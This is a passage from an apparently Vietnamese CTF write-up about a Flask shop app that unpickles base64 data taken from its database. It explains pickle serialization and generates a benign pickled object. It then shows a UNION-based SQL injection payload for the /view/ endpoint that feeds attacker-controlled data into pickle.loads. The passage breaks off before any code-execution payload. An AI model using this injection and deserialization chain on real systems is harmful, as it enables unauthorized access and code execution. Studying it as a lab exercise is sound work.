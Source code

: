 Tóm lại, đoạn mã này mở một file `schema.sql`, thực hiện một quá trình biến đổi danh sách `items` thành một danh sách shop gồm các chuỗi base64, và sau đó thực thi nội dung của file `schema.sql` sau khi đã định dạng.

5. File `schema.sql`:
```
DROP TABLE IF EXISTS products;

CREATE TABLE products (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    created_at NOT NULL DEFAULT CURRENT_TIMESTAMP
);

INSERT INTO products (data) VALUES 
    ("{0}"),
    ("{1}"),
    ("{2}"),
    ("{3}");
```
Vậy là sau khi đoạn code của trên được thực thi thì database sẽ được thêm 4 hàng với giá trị là các chuỗi **base64**.

=> Đến lúc này, chúng ta đã hiểu hơn về hành vi của ứng dụng như sau:
1. Đầu tiên, ứng dụng thêm vào 4 sản phẩm dưới dạng **base64** vào Database.
2. Sau đó, mỗi khi người dùng truy cập trang web, toàn bộ sản phẩm sẽ được lấy ra từ Database (thông qua hàm `all_products()` ) và hiển thị cho người dùng, nếu click view 1 sản phẩm bất kỳ, ứng dụng sẽ thực hiện truy vấn (thông qua hàm `select_by_id()` ) và lấy ra dữ liệu của sản phẩm đó.
3. Dữ liệu được lấy ra lúc này vẫn ở dạng chuỗi **base64** và được truyền vào hàm `render_template('item.jinja2', product=shop.select_by_id(product_id))`, hàm này nhận giá trị parameter `product` làm đầu vào và giờ là lúc `template_filter('pickle')` thực hiện nhiệm vụ decode chuỗi dữ liệu **base64** và cho vào hàm `pickle.loads()`.

**Thông tin thêm:** `Pickle` được sử dụng để thực hiện chuyển đổi các cấu trúc đối tượng Python sang một dạng byte để có thể được lưu trữ trên ổ đĩa hoặc được gửi qua mạng. Và quá trình này được gọi là **Serialize**.
* `Pickle` serialize 1 đối tượng bằng cách gọi hàm `pickle.dumps()`.
* Ngược lại, nếu muốn chuyển từ một chuỗi byte trở lại đối tượng, chúng ta sử dụng hàm `pickle.loads()` và quá trình này gọi là **Deserialize**.

Vậy thì sẽ ra sao nếu chúng ta lợi dụng lỗ hổng SQL Injection ở endpoint `/view/` để truyền vào 1 đối tượng **Base64** do ta generate ra thì liệu ứng dụng có Deserialize và hiện lên trên trang Web không ?

**B3:** Ta thử nghiệm với giả thuyết trên:

1. Đầu tiên, ta dùng code sau để generate chuỗi Base64 với đối tượng do ta kiểm soát:
```
import pickle, base64

test = {"name":"test","price":"100"}

print(base64.b64encode(pickle.dumps(test)).decode())
```
2. Sau đó, ta sẽ được chuỗi Base64 có dạng như sau:
```
$> python test.py
gASVIQAAAAAAAAB9lCiMBG5hbWWUjAR0ZXN0lIwFcHJpY2WUjAMxMDCUdS4=
```
3. Ta sẽ truyền payload này vào thông qua lỗ hổng SQL Injection ở `/view/` qua payload:
```
-1' UNION SELECT 'gASVIQAAAAAAAAB9lCiMBG5hbWWUjAR0ZXN0lIwFcHJpY2WUjAMxMDCUdS4=' --
```